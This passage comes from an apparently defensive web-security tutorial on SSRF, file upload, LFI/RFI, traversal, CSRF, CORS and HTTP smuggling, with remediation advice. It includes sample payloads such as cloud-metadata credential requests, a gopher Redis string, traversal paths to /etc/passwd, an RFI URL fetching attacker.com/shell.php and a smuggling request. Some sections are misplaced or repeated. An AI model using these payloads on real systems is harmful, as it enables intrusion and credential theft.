Safer pattern (use allowlist + server-side rendering):
Or avoid server-side SSI processing entirely and render templates in your application language with proper escaping.
Disable SSI in Apache for a directory
Allow includes but disable exec (Apache)
Allowlist pattern (application pseudocode)
💥 Impact of the Issue
Information disclosure — attacker can cause inclusion of local files (config files, credentials, etc.).
Local file inclusion — sensitive files under the web server’s view may be exposed.
Remote content inclusion / defacement — attacker causes the site to include content from other locations.
Command execution — if SSI supports execution (e.g., exec) and it’s enabled, attacker may run commands (very high severity).
Stored attacks — malicious SSI saved in a database or comment that gets processed later (affects other users).
Trust erosion / phishing — site serves attacker-controlled content to real users.
🧪 Attack scenarios
1. Dynamic include path controlled by user  2. Stored SSI payloadUser-submitted content (comments, profile fields) is saved and later served inside a page processed for SSI. The saved payload executes when other users request the page.
3. Abuse of exec functionalityIf the server’s include module allows command execution and untrusted data ends up in those directives, an attacker may run system commands.
4. Cross-file contaminationAn attacker causes inclusion of a crafted fragment (hosted somewhere they control), which then runs in the context of the victim site (defacement, credential theft).
🛠 Remediation
1. Disable SSI unless required.If you don’t need it, turn off server SSI processing (e.g., remove Options Includes or avoid registering .shtml).
2. If SSI is required, disable dangerous features.Use an option that forbids command execution (for example, prefer IncludesNOEXEC in Apache over full Includes) so exec functionality is disabled.
3. Never place raw user input into SSI contexts.Do not write user-supplied content into files that will be processed for SSI. Escape or neutralize SSI delimiters " <, ! , - , # " before writing untrusted content to files that might be processed.
4. Use allowlists for any include choices.Map user choices to fixed file paths managed by you. Do not accept arbitrary file paths or URLs from users.
5. Least privilege and separation.Ensure the web server account cannot read sensitive files; keep configs and secrets outside the document root.
6. Logging and monitoring.Monitor for unusual include directives, requests for internal files, and logs showing SSI patterns where they shouldn’t be.
7. Patch & hardenKeep web server modules up to date and follow vendor hardening guides.
8. Output encoding / escaping for SSI context 📚 Reference Links:
https://www.imperva.com/learn/application-security/server-side-template-injection-ssti/
https://portswigger.net/web-security/server-side-template-injection
14. Server-Side Request Forgery (SSRF)
🧩 Server-Side Request Forgery (SSRF):
Server-Side Request Forgery (SSRF) occurs when a server-side application fetches a URL or network resource using attacker-controlled input, and the attacker manipulates that input so the server makes unintended requests — often to internal systems that are not directly reachable from the outside. In short: the server becomes the attacker’s proxy./p>
Main types of SQL Injection (simple descriptions + what they let an attacker do)
1. In-band SQLi (Classic)Union-based: attacker uses UNION to append attacker-controlled query results to the app’s results.
Error-based: attacker forces database errors that reveal data.
When used: when application returns query results or error messages directly.
2. Inferential (Blind) SQLiBoolean-based (content-based) blind: attacker sends queries that return different page content depending on a true/false condition; attacker infers data.
Time-based blind: attacker forces a delay (e.g., SLEEP) to infer true/false from response time.
When used: when the app does not return query output or errors.
3. Out-of-band (OOB) SQLiUses DB features to make outbound requests (DNS/HTTP) to attacker-controlled servers to exfiltrate data.
When used: when direct or blind channels are blocked but outbound network from DB is allowed.
4. Second-order SQLiMalicious input is stored safely at entry but later used unsafely (concatenated into SQL) in another operation; exploit happens later.
💥 Impact of the Issue
Server-side data disclosure — internal-only endpoints (APIs, admin consoles) can leak secrets.
Cloud credential theft — metadata services (e.g., AWS IMDS) may return temporary credentials.
Internal port scanning / network discovery — attacker can map internal network and services.
Remote command execution — protocol abuse (gopher/file) or vulnerable internal services can lead to RCE.
Lateral movement — pivot into internal systems, databases, management interfaces.
Denial of service — force expensive requests or to internal services causing outage.
Bypass IP-based ACLs — access internal resources otherwise protected by network ACLs.
Severity depends on what the server can reach and what the internal services expose.
🧪 Typical attack scenarios & concrete examples
All payloads below are for defensive understanding only — do not use them against targets you do not own or have permission to test.
1. Basic SSRF: fetch a URL provided by user Vulnerable code (pseudo-PHP):$url = $_GET['url']; $body = file_get_contents($url); // vulnerable: no validation echo $body;
Attack: ?url=http://internal-api.local/admin/config
What happens: Server fetches /admin/config from internal network and returns it (sensitive configuration exposed).
Mitigation: Allowlist hosts/domains, disallow private addresses, perform safe URL parsing and validation.
2. SSRF to cloud metadata (AWS example)Payload: ?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
What happens: If the server is on EC2 and makes this request, it may retrieve IAM role names and then temporary credentials — attacker can use them to access cloud resources.
Mitigation: Network egress controls, require IMDSv2 (tokens), block metadata IP at host firewall for app processes, and follow cloud provider guidance.
3. Blind / OOB SSRF — exfiltrate via DNSIdea: If the server can resolve external hostnames, attacker supplies a URL that causes a DNS lookup containing secret data.
Example flow:
1. Attacker uses ?url=http://internal-service/secret but response isn't returned.
2. The SSRF triggers a request to http://internal-service/… that causes internal data to be included in a callback or DNS lookup to attacker-controlled-domain.
3. Attacker reads DNS requests at their name server and extracts the data.
Mitigation: Egress filtering, block outbound DNS, prevent app from making arbitrary network requests.
4. Protocol abuse — using gopher:// to talk to Redis or memcachedBackground: gopher:// URLs can embed raw protocol commands. Attackers have used SSRF to connect to Redis and write keys or even craft payloads that lead to remote code execution on some stacks.
Example (conceptual):gopher://127.0.0.1:6379/_SET%20%22shell%22%20%22...%22
What happens: Server issues raw Redis commands — if Redis is misconfigured, this can be abused to write files or execute commands.
Mitigation: Block non-HTTP schemes, restrict allowed schemes, prevent connections to internal ports.
5. Redirect chaining & IP encoding bypassesAttackers bypass naive filters by encoding IPs or using different representations:
Decimal IP: http://2852039168 (decimal of 169.254.169.254)
IPv6 mapped: http://::ffff:127.0.0.1
URL-encoded characters or using redirects from an allowed domain to internal IPs.
Mitigation: Normalize and resolve the final IP before allowing the request; perform DNS resolution server-side and check the resulting IPs against allow/deny lists.
6. Second-order SSRF: stored URL later fetched by privileged processFlow: Attacker stores a seemingly innocuous URL in a profile. Later, an admin feature fetches that URL with higher privileges — the stored malicious URL triggers SSRF to internal services when processed by the admin flow.
Mitigation: Treat stored inputs as untrusted; validate again on use; apply allowlists.
How attackers find & abuse SSRF
Fuzzing/automation: supplying various URLs, internal IPs, metadata endpoints, different protocols (file://, gopher://), and observing responses or side effects.
Looking for endpoints that accept URLs (image fetchers, PDF fetchers, webhooks, URL previewers).
Chaining SSRF with other vulnerabilities (open redirects, exposed internal services).
Secure coding examples
Node.js — safe pattern (allowlist + IP check)
const url = require('url');
const dns = require('dns').promises;
const net = require('net');
const ALLOWED_HOSTNAMES = new Set(['api.example.com', 'images.example.com']);
async function safeFetch(inputUrl) {
const parsed = new URL(inputUrl); // will throw on invalid URL
if (!['http:', 'https:'].includes(parsed.protocol)) throw new Error('Bad scheme');
if (ALLOWED_HOSTNAMES.has(parsed.hostname)) {
// OK - directly allowed
return fetch(parsed.toString(), { timeout: 5000 });
}
// Optionally resolve and verify IPs are not private:
const addrs = await dns.lookup(parsed.hostname, { all: true });
for (const a of addrs) {
if (net.isIP(a.address)) {
// check if a.address is in private range (implement ip-range checks)
if (isPrivateIp(a.address)) throw new Error('Private IP not allowed');
}
}
throw new Error('Host not allowed');
}
(Implement isPrivateIp() using a robust IP/net library.)
Python — minimal safe pattern
from urllib.parse import urlparse
import ipaddress
import socket
ALLOWED_HOSTS = {'api.example.com'}
def is_private_ip(ip):
ip_obj = ipaddress.ip_address(ip)
return ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local
def safe_fetch(url):
p = urlparse(url)
if p.scheme not in ('http', 'https'):
raise ValueError('Bad scheme')
if p.hostname in ALLOWED_HOSTS:
# allowed
return requests.get(url, timeout=5)
# resolve
ips = socket.getaddrinfo(p.hostname, None)
for family, _, _, _, sockaddr in ips:
ip = sockaddr[0]
if is_private_ip(ip):
raise ValueError('Disallowed private IP')
raise ValueError('Host not allowed')
p>Note: DNS resolution must be done server-side (not trusting client-supplied DNS) and you must also check redirects — re-resolve and re-check after each redirect.
🛠 Remediation & defenses
1. Avoid making requests to attacker-controlled URLsDon’t fetch arbitrary URLs supplied by users. If not necessary, remove the feature.
2. Use a strict allowlist (preferred)Maintain a list of permitted hostnames or domains. Only allow requests to validated, known-good destinations
Avoid blacklists — they’re easy to bypass
3. If allowlist impossible, perform robust validationParse the URL using a safe library (do not rely on regex).
Resolve DNS server-side and check the final IP(s) against an allowlist/denylist (reject private, link-local, loopback ranges).
Disallow unusual schemes — only allow http and https if needed.
Follow redirects server-side and re-check the resolved host/IP after each redirect.
4. Block private/internal IP ranges (if external-only fetches are expected)
Block RFC1918: 10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16, loopback 127.0.0.0/8, link-local 169.254.0.0/16, IPv6 equivalents, and cloud metadata ranges (e.g., 169.254.169.254).
5. Network-level protectionsEgress filtering: allow app servers to only reach necessary endpoints.
Block outbound DNS where possible or force DNS resolution via trusted resolver with logging.
Use an outbound proxy that enforces allowlists and protocol validation.
6. Require authentication or tokens for sensitive servicesFor cloud metadata, enable provider mitigations (e.g., AWS IMDSv2 requires session tokens).
Harden internal admin services (mutual TLS, firewall rules).
7. Disallow/limit non-HTTP schemesRefuse file://, gopher://, dict://, ftp:// and other schemes unless explicitly needed and validated.
8. Run requests with minimal privileges and safe timeoutsUse short timeouts, small response size limits, and run fetching code in a constrained environment with limited access.
9. Log & monitorLog outgoing requests joined to the initiating user/session. Alert on requests to internal ranges or unusual targets.
📚 Reference Links:
https://owasp.org/www-community/attacks/Server_Side_Request_Forgery
https://cwe.mitre.org/data/definitions/918.html
https://cheatsheetseries.owasp.org/
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html
15. File Upload Vulnerability
📌 File Upload Vulnerability
A File Upload Vulnerability occurs when a web application lets users upload files without properly validating them. Attackers can exploit this to upload malicious scripts, malware, or executables, leading to server compromise, data theft, or full system takeover. The fix is to strictly validate file types, restrict upload locations, and never execute uploaded files.
Many websites allow users to upload files (profile pictures, documents, videos, etc.).
If the application doesn’t check file type, size, or content properly, attackers can upload harmful files.
Example: Instead of a .jpg image, an attacker uploads a .php web shell that executes commands on the server.
✅ How is File Validation Used?
File validation is the process of checking uploaded files to ensure they conform to expected criteria such as:
File type validation: Confirming the file extension and MIME type match allowed types (e.g., .jpg, .png, .pdf).
File size validation: Enforcing size limits to prevent resource exhaustion.
File content validation: Optionally inspecting file contents to detect malicious code.
Filename sanitization: Removing or restricting harmful characters to prevent path traversal or injection.
Storage location control: Ensuring uploaded files are stored in secure, non-executable directories.
⚠️ Impact of File Upload Vulnerabilities
Remote Code Execution (RCE): Attackers can upload and execute malicious scripts on the server.
Malware Distribution: The system can become a source for spreading malware.
Denial of Service (DoS): Uploading very large or numerous files can exhaust server resources.
Data Breach or Defacement: Malicious files may lead to data leaks or unauthorized site modification.
Unauthorized Access: Exploiting uploaded files to escalate privileges.
🎯 Examples & Attack Scenarios
1. Web Shell UploadAttacker uploads shell.php disguised as image.jpg.php.
Visiting http://example.com/uploads/shell.php gives them remote control of the server.
2. Malware DistributionUploading a malicious .exe file that unsuspecting users download and run.
3. Bypassing FiltersAttackers rename malware.php to malware.php.jpg to bypass weak extension checks.
4. Path Traversal in UploadsUploading a file with ../../evil.php in its name to place it in a sensitive directory.
🛠️ Remediation of the Issue
1. Strictly validate file type and MIME type to accept only known safe formats.
2. Enforce file size limits to control resource use.
3. Sanitize file names or generate safe random names.
4. Store uploaded files outside the web root to prevent direct execution.
5. Scan uploaded files with antivirus/malware scanners if possible.
6. Implement authentication and authorization for upload endpoints.
7. Log upload activity to detect suspicious behavior.
📚 Reference Links:
https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Methods/POST#uploading_files
https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
16. Local File Inclusion (LFI)
📌 Local File Inclusion (LFI)
A Local File Inclusion (LFI) vulnerability happens when a web application allows user input to specify files that the server loads, without proper validation. Attackers can exploit this to read sensitive files, expose source code, or even achieve remote code execution. The fix is to sanitize user input, restrict file access, and use secure coding practices.
Local File Inclusion (LFI) occurs when a web app dynamically includes files based on user input.
If the input isn’t validated, attackers can trick the server into loading unexpected files from its local filesystem.
Example vulnerable PHP code:
If a user requests ?page=../../etc/passwd, the server may expose sensitive system files.
⚠️ Impact of LFI
Sensitive File Disclosure: Attackers can read files like /etc/passwd, configuration files, or logs.
Source Code Exposure: Application code (e.g., config.php) may be revealed, leaking database credentials.
Authentication Bypass: Session or cookie files could be included to hijack sessions.
Remote Code Execution (RCE): When combined with file upload or log poisoning, attackers can execute arbitrary code.
Privilege Escalation: If chained with other vulnerabilities, attackers may gain full server control.
🎯 Examples & Attack Scenarios
File Disclosurehttp://example.com/index.php?page=../../../../etc/passwd
Reveals system user accounts.
Source Code Exposurehttp://example.com/index.php?page=../../config.php
Exposes database credentials.
Log Poisoning to RCEAttacker injects PHP code into server logs (e.g., via User-Agent header).
Then includes the log file via LFI to execute the code.
Session Hijackinghttp://example.com/index.php?page=../../../../tmp/sess_abcd1234
Reads session files to impersonate users.
🛠️ Remediation of the Issue
1. Input Validation & WhitelistingOnly allow predefined, safe file names.
Never trust user input for file paths.
2. Disable Dangerous FunctionsIn PHP, disable include, require, or allow_url_include where not needed.
3. Use Path RestrictionsImplement a chroot jail or restrict file access to specific directories.
4. Error HandlingDon’t reveal detailed error messages that expose file paths.
5. Least PrivilegeRun the web server with minimal permissions to limit damage.
📚 Reference Links:
https://brightsec.com/blog/lfi-attack-real-life-attacks-and-attack-examples/
17. Remote File Inclusion (RFI)
📌 Remote File Inclusion (RFI)
A Remote File Inclusion (RFI) vulnerability happens when a web application loads files based on user input without proper validation, allowing attackers to include and execute malicious files from remote servers. This can lead to remote code execution, data theft, or full server compromise. The fix is to disable remote file inclusion, validate inputs, and restrict file access.
It occurs when a web app dynamically includes files (e.g., PHP include() or require()) using user-supplied input.
If input isn’t sanitized, attackers can point the application to a remote malicious file hosted on their server.
Example vulnerable PHP code:
The malicious script from evil.com will run on the server.
⚠️ Impact of RFI
Remote Code Execution (RCE): Attackers can run arbitrary code on the server.
Server Takeover: Full control of the web server if it runs with high privileges.
Website Defacement: Injecting malicious content into web pages.
Data Theft: Access to sensitive files, databases, or credentials.
Pivoting:Using the compromised server to attack internal networks.
🎯 Attack Scenarios
1. Remote Shell UploadAttacker hosts a malicious PHP file (shell.php) on their server.
Victim site includes it via:
http://victim.com/index.php?page=http://attacker.com/shell.php
Now the attacker can execute commands remotely.
2. Malware InjectionRFI is used to load a remote script that steals cookies or injects malware into pages.
3. Botnet RecruitmentCompromised servers can be forced to download and run scripts that make them part of a botnet.
🛠️ Remediation
1. Disable Remote File InclusionIn PHP, set allow_url_include=Off and allow_url_fopen=Off.
2. Input Validation & WhitelistingOnly allow predefined, safe file names.
Never let users directly control file paths.
3. Use Secure Coding PracticesReplace dynamic includes with static mappings.
Avoid using include() or require() with user input.
4. Least PrivilegeRun the web server with minimal permissions.
5. Error HandlingHide detailed error messages that may reveal file paths.
📚 Reference Links:
https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/
https://zerothreat.ai/blog/remote-file-inclusion-the-security-threat-you-might-be-ignoring
https://letsdefend.io/blog/how-to-detect-lfi-and-rfi-attacks
18. Directory Traversal
📌 Remote File Inclusion (RFI)
Directory traversal occurs when attackers exploit insecure file path handling in web applications.
By inserting sequences like ../ (dot-dot-slash), attackers can “climb” out of the web root directory and access restricted files.
Example Input:http://example.com/getFile?name=../../etc/passwd
This could trick the server into returning the system’s password file.
⚠️ Impact of the Issue
Data Exposure: Attackers can read sensitive files (e.g., /etc/passwd, application source code, API keys).
System Compromise: If write permissions exist, attackers may overwrite files or inject malicious code.
Application Manipulation: Access to configuration files may allow bypassing authentication or escalating privileges.
Regulatory Risk: Breaches of personal data can lead to compliance violations (GDPR, HIPAA, etc.).
🎭 Attacker Scenarios & Examples
Sensitive File Disclosure: An attacker retrieves /etc/passwd on a Linux server to enumerate users.
Application Source Code Theft: Accessing ../../app/config.php to steal database credentials.
Log File Manipulation: Overwriting log files to hide malicious activity.
Real-World Example: Directory traversal was used in attacks against older versions of Apache Tomcat and PHP applications, where improper input sanitization exposed system files.
🛠️ Remediation
Input Validation: Sanitize and validate all user-supplied file paths.
Use Whitelisting: Allow access only to explicitly permitted files/directories.
Avoid Direct File Access: Map user requests to internal identifiers instead of raw file paths.
Least Privilege: Run applications with minimal OS permissions to limit damage.
Web Application Firewall (WAF): Detect and block suspicious path traversal attempts.
Regular Security Testing: Conduct penetration tests and code reviews to catch vulnerabilities.
📚 Reference Links:
https://brightsec.com/blog/directory-traversal-attack/
https://www.intigriti.com/researchers/hackademy/directory-traversal
https://www.imperva.com/learn/application-security/directory-traversal/
19. Cross-Site Request Forgery
🧩 Cross-Site Request Forgery:
CSRF (Cross-Site Request Forgery) is an attack where a malicious website tricks a user’s browser into making unintended requests to a web application where the user is already authenticated.
The attacker does not steal credentials; instead, they exploit the user’s active session to perform actions on their behalf.
CSRF relies on the fact that browsers automatically send cookies or authentication tokens with requests.
Examples
You are logged into your bank. Visiting a malicious site could make your browser unknowingly send a money transfer request to your bank.
💥 Impact of the Issue
Account takeover: change password, email, or profile settings.
Financial loss: initiate bank transfers or payments.
Data manipulation: modify or delete sensitive data.
Privilege escalation: perform admin actions if the victim is an admin.
Severity depends on what actions are available to the authenticated user.
⚠️ How CSRF Works (Attack Scenario)
Scenario 1 — Simple CSRF (GET request)1. Victim is logged in to example.com.
2. Attacker hosts a page with:
3. Browser automatically sends the session cookie to example.com.
4. Victim’s email is changed without their knowledge.
Scenario 2 — CSRF using POST request1. Attacker creates a hidden form:

2. When a logged-in user visits the page, the form submits automatically.
3. The bank transfers money to the attacker’s account.
🛠 Remediation (How to Prevent CSRF)
1. Use Anti-CSRF TokensInclude a unique token in forms or AJAX requests, tied to the user session.
Server validates token before processing the request.
Example (HTML form):
JavaScript context: use JS string escaping or avoid embedding untrusted data into script blocks.
URL context: percent-encode.
2. Use SameSite CookiesSet cookies with SameSite=Lax or SameSite=Strict to prevent them from being sent in cross-site requests.
3. Verify Origin/Referer Header Ensure requests come from your own domain before processing sensitive actions.
4. Use Framework Protection Most modern frameworks (Django, Rails, Laravel, Spring) have built-in CSRF protection.
5. Avoid GET for state-changing actions Only use POST, PUT, DELETE for actions that modify data.
📚 Reference Links:
https://owasp.org/www-community/attacks/csrf
20. Cross-Origin Resource Sharing
🧩 CORS (Cross-Origin Resource Sharing):
CORS (Cross-Origin Resource Sharing) is a browser security mechanism that controls whether a web page running on one origin (domain) can make requests to another origin and read the responses.
Same-Origin Policy (SOP): by default, scripts can only access responses from the same origin.
CORS: allows servers to relax SOP by specifying which origins are allowed to access their resources.
Important: CORS is enforced by browsers only, not by the server. A misconfigured CORS policy can let attackers read sensitive data from your site.
Examples
You are logged into your bank. Visiting a malicious site could make your browser unknowingly send a money transfer request to your bank.
💥 Impact of the Issue
Steal sensitive data from APIs (user info, emails, tokens).
Hijack accounts if authentication cookies are sent automatically.
Perform unauthorized actions by tricking logged-in users.
Exfiltrate CSRF tokens or session info, enabling further attacks.
Severity depends on what the API returns and whether credentials (cookies, tokens) are involved.
🧪 Attack Scenarios & Examples
Scenario 1 — Malicious site steals data1. Victim is logged in to api.example.com.
2. Victim visits attacker.com
3. Attacker’s JS sends:

If api.example.com allows the attacker’s origin via CORS, the browser sends the cookie and attacker reads the response.
Scenario 2 — Origin reflectionServer responds:
Access-Control-Allow-Origin: https://evil.com Access-Control-Allow-Credentials: true
Any attacker origin can bypass SOP and access sensitive data.
🛠 Remediation (How to fix CORS issues)
1. Use strict origin whitelistOnly allow trusted origins, e.g., https://app.example.com.
2. Handle credentials safelyIf Access-Control-Allow-Credentials: true, never use * for origin.
Prefer token-based auth over cookies where possible.
3. Always validate authorization server-sideDo not rely on CORS to protect sensitive endpoints.
4. Limit methods & headersOnly allow required HTTP methods (GET, POST) and headers.
5. Use Vary: OriginEnsures caches do not serve wrong ACAO headers.
6. Secure cookiesUse HttpOnly, Secure, and SameSite flags to reduce risk.
✅ Example of Safe CORS (Node.js Express)
📚 Reference Links:
https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS
https://owasp.org/www-project-secure-headers/#access-control-allow-origin
21. HTTP Splitting and Smuggling
🌐 HTTP Splitting:
HTTP Splitting and Smuggling vulnerabilities occur when attackers manipulate how web servers, proxies, or load balancers interpret HTTP requests. This can let them inject extra responses, bypass security controls, poison caches, or hijack user sessions. The fix is strict input validation, consistent parsing across components, and secure HTTP header handling.
Definition: HTTP Response Splitting happens when an attacker injects CRLF characters (\r\n) into HTTP headers.
Effect: This “splits” one response into two, allowing attackers to inject malicious headers or content.
Example:GET /page?lang=en%0d%0aContent-Length:0%0d%0a%0d%0aHTTP/1.1 200 OK
This tricks the server into sending two responses, enabling cache poisoning or XSS.
🌐 HTTP Smuggling:
Definition: HTTP Request Smuggling exploits inconsistent parsing of HTTP requests between front-end (proxy/load balancer) and back-end servers.
Effect: Attackers craft requests that are interpreted differently by each server, letting them smuggle hidden requests.
Example:POST / HTTP/1.1 Host: victim.com Content-Length: 13 Transfer-Encoding: chunked 0 GET /admin HTTP/1.1 Host: victim.com
The proxy may see one request, while the back-end sees two, allowing attackers to bypass controls.
Examples
You are logged into your bank. Visiting a malicious site could make your browser unknowingly send a money transfer request to your bank.
💥 Impact of the Issue
Cache Poisoning: Attackers inject malicious responses into shared caches.
Session Hijacking: Smuggled requests can steal cookies or tokens.
Bypass Security Controls: WAFs or proxies may miss hidden requests.
Cross-Site Scripting (XSS): Injected headers or responses can execute malicious scripts.
Data Theft & Privilege Escalation: Attackers gain unauthorized access to sensitive endpoints.
🎭 Attacker Scenarios & Examples
Cache Poisoning Attack: Attacker injects malicious JavaScript into a cached response, served to all users.
Hidden Admin Access: Smuggled request bypasses authentication checks and reaches /admin.
Session Fixation: Injected headers force a victim to use a known session ID.
Real-World Example: In 2019, multiple CDNs and load balancers were found vulnerable to HTTP request smuggling, allowing attackers to hijack sessions and poison caches.
🛠 Remediation Strategies
Input Validation: Sanitize user input to block CRLF injection.
Consistent Parsing: Ensure all servers (proxy, load balancer, back-end) use the same HTTP parsing rules.
Disable Ambiguous Headers: Avoid using both Content-Length and Transfer-Encoding together.
Patch & Update: Keep web servers, proxies, and frameworks updated.
Security Testing: Use penetration testing tools to detect splitting/smuggling flaws.
WAF Rules: Deploy rules to block suspicious HTTP header manipulations.
📚 Reference Links:
22. Security Headers
📌Content Security Policy (CSP):
It is a security feature that helps prevent Cross-Site Scripting (XSS), clickjacking, and other code injection attacks by controlling which resources (scripts, styles, images, etc.) the browser is allowed to load and execute.
It is implemented using the Content-Security-Policy HTTP response header.
✅ What is the Use of CSP?
The main purposes of CSP include:
1. Prevent XSS attacks by blocking inline scripts or scripts from untrusted sources.
2. Restrict resource loading (e.g., only allow scripts from your domain or trusted CDNs).
3. Reduce attack surface by allowing developers to whitelist only necessary resources.
⚠️ Impact if CSP is Not Implemented?
Without CSP:
Your app is vulnerable to XSS attacks, where malicious scripts can run in the browser.
Attackers may steal cookies, session tokens, or impersonate users.
May allow injection of unauthorized third-party content, like malicious ads or trackers.
Increases the risk of data leakage or phishing via trusted UI.
🛠️ Remediation
1. Implement a strong CSP policy.
2. Avoid inline JavaScript and use external scripts with nonce or hash.
3. Remove unsafe directives like unsafe-inline, unsafe-eval.
4. Use CSP reporting to monitor violations via report-Uri or report-to.
🧠 React Best Practices for CSP
Avoid inline styles/scripts – use external files.
Use dangerouslySetInnerHTML sparingly – it can break CSP and invite XSS.
Use React Helmet to help manage meta tags, but remember headers are best set server-side.
🧪 Testing and Validation
Use browser dev tools → Console → CSP errors.
Use Google CSP Evaluator: https://csp-evaluator.withgoogle.com/
Use report-uri or report-to to log violations.
🛡️ What is X-Frame-Options?
X-Frame-Options is an HTTP response header that prevents your website from being embedded in an "iframe" on other domains. This protects against clickjacking attacks.
✅ What Is the Use of It?
Clickjacking occurs when a malicious website embeds your site in an invisible "iframe" and tricks users into clicking buttons or links without knowing. This can lead to:
Unintended actions (e.g. transferring funds, deleting content)
Credential theft
UI redressing
X-Frame-Options blocks this by controlling how/if your site can be framed.
⚠️ What is the Impact If the Header Is Missing?
Without X-Frame-Options, your app is vulnerable to:
Clickjacking attacks
UI redressing threats
Trust erosion — users might unknowingly interact with malicious overlays
Regulatory non-compliance (e.g. OWASP Top 10: A5 – Security Misconfiguration)
🛠️ Remediation of the Issue
Set the X-Frame-Options header to DENY or SAMEORIGIN.
Use Content-Security-Policy (CSP) with the frame-ancestors directive for more modern control (CSP is more flexible and the preferred long-term solution).
Avoid using "iframe" to load sensitive interfaces unless absolutely necessary.
🔗 Reference Links:
https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-Frame-Options
https://owasp.org/www-community/attacks/Clickjacking
https://helmetjs.github.io/docs/frameguard/
🛡️ What is X-Content-Type-Options?
X-Content-Type-Options is an HTTP security header that prevents browsers from MIME-sniffing a response away from the declared content-type.
It is used to force the browser to respect the Content-Type declared by the server, thus preventing it from interpreting files as something else.
✅ What Is the Use of It?
Helps prevent MIME type confusion attacks where a browser tries to "guess" the type of a file and executes it as something else (e.g., executing a script when it should be treated as plain text).
Protects against cross-site scripting (XSS) and drive-by downloads by ensuring that content is interpreted strictly as the intended type.
Improves overall content security by eliminating ambiguity on how resources are handled.
⚠️ Impact if the Application Does NOT Implement this Header
Browsers may mime-sniff responses and treat non-executable resources as executable, opening up your app to XSS.
Attackers can exploit this to run malicious scripts or load unsafe content.
Potential security vulnerabilities in older browsers or those that support content sniffing.
Increased risk of client-side injection attacks.
🛠️ Remediation of the Issue
Add the header:
